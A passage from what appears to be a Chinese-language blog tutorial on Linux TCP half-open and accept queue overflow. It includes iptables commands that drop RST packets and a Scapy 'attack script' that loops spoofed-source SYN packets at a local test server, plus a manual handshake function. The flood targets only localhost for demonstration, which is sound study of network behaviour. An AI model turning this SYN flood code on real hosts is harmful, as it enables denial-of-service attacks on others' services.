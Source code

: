 第二，我们继续使用 Loopback，但是我们使用 iptables 将 RST 包直接丢弃，这里我们选择使用这个方法。

CentOS 7 默认使用的是 firewalld 而不是 iptables，我们需要手动安装。

```bash
$ systemctl stop firewalld
$ yum install -y iptables-services
$ systemctl start iptables
# 添加规则，丢弃所有的 RST 包
$ iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP
```

现在终于可以编写我们的攻击脚本了😈，很简单，循环发送 SYN 包即可。

```python
from time import sleep
from random import randint
ip = IP(dst="127.0.0.1")
tcp = TCP(dport=8877, flags="S")
def attack():
  while True:
    ip.src=f"127.0.0.{randint(0, 255)}"
    send(ip/tcp)
    sleep(0.01)

attack() # 发送大量的 SYN 包给目标地址
```

启动 `attack` 以后，此时我们试着用 `telnet localhost 8877` 去连接 8877 端口，会发现无法连接，说明攻击奏效了，因为半连接队列满了，Server 直接丢弃了 SYN 包，新的客户端无法和 Server 建立通讯。

查看 tcpdump 的输出，我们会发现全部都是 SYN/ACK 包，因为 Server 没有收到客户端的 ACK，所以会超时重发 SYN/ACK 给客户端。

![](/image/FnRuxggtfoszNF6p6Ax1W34L7IYM.png)

使用 `netstat` 获取 Socket 状态，会看到 16 个处于 `SYN_RECV` 的 Socket。

![](/image/FhTwQcNe0Uuxex-M6gM2S_obva8S.png)

## 全连接队列溢出

如果全连接队满了又会怎么样？应用程序调用 `accept` 的速度太慢，或者请求太多，都会导致这个情况。

当系统收到三次握手中第三次的 ACK 包，正常情况下应该是从半连接队列中取出连接，更改状态，放入全连接队列中。此时如果全连接队列满了的话：

- 如果设置了 `net.ipv4.tcp_abort_on_overflow`，那么直接回复 RST，同时，对应的连接直接从半连接队列中删除
- 否则，直接忽略 ACK，然后 TCP 的超时机制会起作用，一定时间以后，Server 会重新发送 SYN/ACK，因为在 Server 看来，它没有收到 ACK

我们来测试一下，首先，关闭 `net.ipv4.tcp_abort_on_overflow`，启动我们的 [simple-tcp-server]，`listen` 的 `backlog` 参数是 1，`somaxconn` 为 128，因此，全连接队列的长度为 1。

使用 Scapy 定义 `connect` 函数，函数内部我们手动实现了三次握手。

```python
ip=IP(dst="127.0.0.1")
tcp=TCP(dport=8877, flags="S")
idx = 1

def connect():
  global idx
  ip.src = f"127.0.0.{ idx }"
  synack = sr1(ip/tcp)
  ack = TCP(sport=synack.dport, dport=synack.sport, flags="A", seq=100, ack=synack.seq + 1)
  send(ip/ack)
  idx += 1
```


[Linux 诡异的半连接队列长度]: https://www.cnblogs.com/zengkefu/p/5606696.html
[Redis]: https://github.com/antirez/redis/blob/5.0.5/src/server.h#L87
[Nginx]: https://github.com/nginx/nginx/blob/release-1.17.3/src/os/unix/ngx_linux_config.h#L107
[simple-tcp-server]: https://gist.github.com/cj1128/e6620df2ea2e650164d7513b05c88c8c
[Scapy]: https://scapy.net/